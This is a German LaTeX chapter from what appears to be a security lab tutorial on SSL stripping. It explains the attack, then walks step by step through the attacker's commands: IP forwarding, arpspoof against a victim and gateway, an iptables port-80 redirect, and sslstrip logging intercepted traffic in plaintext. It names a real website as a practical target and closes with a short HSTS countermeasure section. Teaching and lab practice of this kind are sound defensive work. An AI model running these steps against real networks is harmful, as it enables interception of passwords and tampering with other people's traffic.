%!TEX root = ../document.tex
\chapter{SSL Strip}
Ziel des SSL Strip ist das Mitlesen und Verändern von Datenpaketen, die über das Internet versandt werden. Gerade das Ausspähen von Passwörtern wird oft auf diese Weise durchgeführt.

\section{Erklärung}
Beim SSL Strip macht man sich die Unwissenheit und Unaufmerksamkeit der meisten Internetbenutzer zu Nutze. Den Unterschied zwischen dem in Kapitel \enquote{Fachbegriffe} erläuterten HTTP und HTTPS kennen nicht viele und noch weniger achten beim Surfen im Internet darauf, wie die URL-Leiste ausschaut. Der Angreifer verwandelt also sämtliche https-Links in http-Links und kann dann den Datenverkehr ohne rechenintensives Entschlüsseln der Nachrichten leicht mitlesen.

Da es bereits viele Webserver gibt, die nur verschlüsselte Aufrufe zulassen, wird in diesem Tutorial zusätzlich auf einer ARP Spoofing Attacke aufgebaut (vergleiche Kapitel \ref{chapter_arp_spoofing} \enquote{ARP Spoofing}). Es wird also zuerst ein MITM-Angriff gestartet, bei dem sämtliche ARP-Requests auf den Angreifer umgeleitet werden. Diese Aufrufe erfolgen unverschlüsselt mit Hilfe der veränderten http-Links. Der Angreifer kann dann die Nachricht auslesen und sie im Anschluss über den verschlüsselten https-Link an den Webserver weiterleiten. In Abbildung \ref{fig:sslstrip} ist vergleichsweise ein normaler Verbindungsaufbau und ein Verbindung im Zuge eines SSL Strip Angriffes dargestellt.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/sslstrip/SSLStrip}
	\caption{links: Normaler Aufbau einer HTTPS-Verbindung; rechts: Verbindungsaufbau während einer SSL Strip Attacke}
	\label{fig:sslstrip}
\end{figure}

\section{Vorbereitung}
Notwendige Hardware:

\begin{itemize}
	\item Kali Linux 2.0 mit Security Workbench (Rechner des Angreifers)
	\item Zweiter Rechner (beliebiges Betriebssystem) im selben Netzwerk (Rechner des Opfers)
	\item Router mit Internetverbindung
\end{itemize}

\section{Ablauf}
Das Opfer muss bei diesem Tutorial zu Beginn lediglich einmal ifconfig ausführen zum Auslesen der IP-Adresse. Die folgenden Befehle muss alle der Angreifer ausführen, bis das Opfer wieder direkt angesprochen wird.

Diese Tutorial verwendet das 2009 von Moxie Marlinspike entwickelte SSLStrip mit der aktuellen Version 0.9.2. Durch IP-Forwarding wird als Erstes das Weiterleiten von IP-Pakten mit dem folgenden Befehl aktiviert.

\begin{lstlisting}
sysctl -w net.ipv4.ip_forward=1
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{sysctl} wird benutzt, um Kernelparameter zur Laufzeit zu Verändern, wenn sie unter /proc/sys aufgelistet sind
	\item \bashCommand{-w} verändert die im folgenden angegebene Variable auf den ebenfalls angegebenen Wert
\end{itemize}

Alternativ kann das IP-Forwarding auch mit folgendem Befehl gestartet werden.

\begin{lstlisting}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}

\bashCommand{echo <value> > <file>} schreibt den angegebenen Wert in die ebenfalls angegebene Datei, in diesem Fall wird IP-Forwarding aktiviert.

Im Anschluss wird ARP Spoofing auf das Opfer ausgeführt. Dafür muss zuerst das Gateway und das Interface aus deiner Netzwerkkonfiguration ausgelesen werden. 
\begin{lstlisting}
ifconfig
\end{lstlisting}

Nun kann das ARP Spoofing gestartet werden.

\begin{lstlisting}
arpspoof -i <interface> -t <targetIP> <gatewayIP>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{arpspoof} startet das ARP Spoofing Tool
	\item \bashCommand{-i <interface>} Name des Interfaces, in dem sich Angreifer und Opfer befinden
	\item \bashCommand{-t <targetIP>} IP-Adresse des anzugreifenden Clients
	\item \bashCommand{<gatewayIP>} IP-Adresse des Gateways im LAN
\end{itemize}

Nun laufen mit Hilfe von ARP-Spoofing alle IP-Pakete vom Opfer über den eigenen Rechner. Die umgeleiteten HTTP-Pakete müssen nun via IPtables an das Tool SSLStrip weitergeleitet werden.

\begin{lstlisting}
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{iptables} Werkzeug zur regelbasierten Konfiguration der Firewall von Linux
	\item \bashCommand{-t nat} Firewall-Gruppe
	\item \bashCommand{-A PREROUTING} die Regel wird vor dem Routen des Paketes angewandt
	\item \bashCommand{-p tcp}  nur TCP-Pakete sind betroffen
	\item \bashCommand{--destination-port 80} nur Pakete auf Ziel-Port 80(HTTP) sind betroffen
	\item \bashCommand{-j REDIRECT} Pakete sollen weitergeleitet werden
	\item \bashCommand{--to-port <listenPort>} Port, auf welchen auf Nachrichten gewartet werden soll -- dieser Port wird im Anschluss bei SSLStrip benötigt
\end{itemize}

Jetzt muss SSLStrip gestartet werden. Dieses durchsucht alle Nachrichten auf solche, die über den angegebenen Port  verschickt wurden. Diese Nachrichten werden zuerst in einer Log-Datei gespeichert und danach in einer HTTPS-Nachricht weitergeleitet.

\begin{lstlisting}
sslstrip -a -k -l <listenPort> -w <logpath>
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{sslstrip} Aufrufen des Paketes zur Durchführung des SSLStrip
	\item \bashCommand{-a} SSL- und HTTP-Traffic werden aufgezeichnet
	\item \bashCommand{-k} bestehende SSL-Verbindungen sollen beendet und neu aufgebaut werden
	\item \bashCommand{-l <listenPort>} Port, auf den SSLStrip auf Nachrichten warten soll -- dies muss der selbe Port sein, der auch bei IPtables angegeben wurde
	\item \bashCommand{-w <logpath>} Pfad, unterwelchem die ausgetauschten Nachrichten im Klartext gespeichert werden sollen
\end{itemize}

Jetzt muss das Opfer eine http-Seite öffnen, von der aus er auf eine https-Seite weitergeleitet wird. Es hat sich dabei "'www.radio-in.de"' und das Öffnen "'Intern neu"' am Ende der Seite bewährt.

\section{Gegenmaßnahmen}

Um sicherzustellen, dass nur verschlüsselte Seiten aufgerufen werden, kann der Mechanismus HTTP Strict Transport Security (HSTS) verwendet werden. Dabei wird dem Browser des Anwenders mitgeteilt, dass für eine bestimmte Dauer nur verschlüsselte Verbindungen mit dieser Domain aufgebaut werden sollen. Plötzliche unverschlüsselte Verbindungen können so vom Browser erkannt und abgelehnt werden. Damit HSTS vor Spoofing schützen kann, muss jedoch die Seite vor Beginn des Angriffes mindestens einmal durch den Client aufgerufen worden sein.
